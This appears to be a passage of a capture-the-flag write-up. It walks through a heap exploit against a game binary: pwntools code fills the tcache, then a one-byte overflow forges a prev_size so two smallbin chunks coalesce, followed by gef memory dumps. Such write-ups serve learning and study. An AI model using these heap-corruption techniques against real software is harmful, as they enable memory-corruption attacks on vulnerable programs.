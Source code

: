 ```Python
def save():
	r.sendlineafter("> ",'4')

def load():
	r.sendlineafter("> ",'5')

def restart(w,h,savename=''):
	r.sendlineafter("> ",'6')
	setup_game(w,h,savename)

def exploit():
	setup_game(160,1,"wtf")

	log.info("allocating 0xa0 and 0x90 chunks")
	for i in xrange(14):
		spawn(chr(0x61+i),i,0,0,0,0x98 if i < 7 else 0x88,chr(0x61+i)*8)

	spawn('?',14,0,0,0,0x98,'?'*8)
	spawn('*',15,0,0,0,0x48,'*'*8)
	spawn('*',16,0,0,0,0x48,'*'*8)
	spawn('*',17,0,0,0,0x48,'*'*8)
	spawn('*',18,0,0,0,0x48,'*'*8)
	spawn('x',19,0,0,0,0x88,'x'*8)
	spawn('=',20,0,0,0,0x28,'='*8)
```
The `?` and `x` chunk is the smallbins we want to coalesce. I allocated different chunk sizes because I don't want to mess with heap layout.


We proceed to fill the tcache, and free the chunk above the `x` chunk:
```Python
log.info("filling tcache for 0xa0 and 0x90 chunks")
for i in xrange(14): kill(i,0)

log.info("freeing payload chunk")
kill(18,0)
```


Then we allocate back the chunk and trigger one byte overflow:
```Python
log.info("adjusting fake size")
log.info("triggering one byte overflow")
payload = ''.ljust(0x3d-9,'+')
payload += p64(0xa0+0x50+0x50+0x50+0x50)
payload += p64(0x90)
spawn('+',0x30+28,0,0,0,0x48,payload)
```


After that, we free the `x` chunk and coalesces the two smallbins. Here's the state before target is freed:
```
gef> tel 0x0000155555557d30 9
0x0000155555557d30|+0x0000: 0x0000000000000000 # '?' chunk, freed into unsorted bin
0x0000155555557d38|+0x0008: 0x00000000000000a1
0x0000155555557d40|+0x0010: 0x0000155555314ca0 -> 0x0000155555557fd0 -> 0x0000000000000000
0x0000155555557d48|+0x0018: 0x0000155555314ca0 -> 0x0000155555557fd0 -> 0x0000000000000000
gef> tel 0x0000155555557f10
0x0000155555557f10|+0x0000: 0x00000000000001e0 # fake prev_size
0x0000155555557f18|+0x0008: 0x0000000000000090 # toggle off prev_in_use bit of this chunk
0x0000155555557f20|+0x0010: 0x0000000000000078 ("x"?)	<-$rax, $rdi
0x0000155555557f28|+0x0018: 0x7878787800000000
0x0000155555557f30|+0x0020: 0x0000000078787878 ("xxxx"?)
```
